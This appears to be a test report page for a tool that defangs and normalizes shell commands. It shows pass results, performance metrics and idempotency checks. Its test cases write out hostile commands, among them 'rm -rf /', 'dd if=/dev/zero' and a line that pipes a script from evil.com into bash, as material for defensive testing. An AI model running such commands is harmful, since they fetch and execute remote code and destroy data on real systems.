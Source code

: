 | # | Test Case | Original Command | Defanged Command | Result |
|---|-----------|------------------|------------------|--------|
| 1 | URL scheme + command | `curl http://evil.com` | `cxrl hxxp://evil.com` | ✅ PASS |
| 2 | Command name | `bash script.sh` | `bxsh script.sh` | ✅ PASS |
| 3 | Dangerous command | `rm -rf /` | `rx -rf /` | ✅ PASS |
| 4 | Data destruction | `dd if=/dev/zero` | `dx if=/dev/zero` | ✅ PASS |
| 5 | AND operator | `cmd1 && cmd2` | `cmd1 [AND] cmd2` | ✅ PASS |
| 6 | PIPE operator | `cmd1 \| cmd2` | `cmd1 [PIPE] cmd2` | ✅ PASS |
| 7 | Semicolon operator | `cmd1; cmd2` | `cmd1[SC] cmd2` | ✅ PASS |
| 8 | Subshell nested | `$(curl http://evil.com)` | `[SUBSHELL] cxrl hxxp://evil.com [SUBSHELL]` | ✅ PASS |
| 9 | Backtick substitution | ``echo `whoami` `` | `echo [BACKTICK] whoami [BACKTICK]` | ✅ PASS |

### Performance Metrics

**Test Configuration**:
```
Platform: Darwin (macOS)
Python: 3.13.5
Test Commands: 900 (18 commands × 50 iterations)
Warm-up: 10 commands
```

**Results**:
- **Total Time**: 10.88ms
- **Per Command**: 0.0121ms
- **Throughput**: 82,701 commands/sec
- **Threshold**: < 1.0ms per command ✅ PASS

**Performance Analysis**:
- 82x faster than 1ms threshold
- Production-ready performance
- Scales linearly with command count
- No memory pressure observed

### Idempotency Validation

**Test**: `normalize(normalize(x)) == normalize(x)`

**Results**:
- All 18 idempotency assertions passed
- Verified for both original and defanged versions
- Double normalization produces identical output
- No drift or accumulation errors

### Additional Validation Tests

#### 1. Complex Chained Defanging ✅ PASS
**Test**: Multi-pattern command chains
```python
original = "curl http://evil.com/malware.sh | bash && rm -rf /tmp"
defanged = "cxrl hxxp://evil.com/malware.sh [PIPE] bxsh [AND] rx -rf /tmp"
# Both normalize to: "curl [URL] | bash && rm -rf [PATH:1]"
```
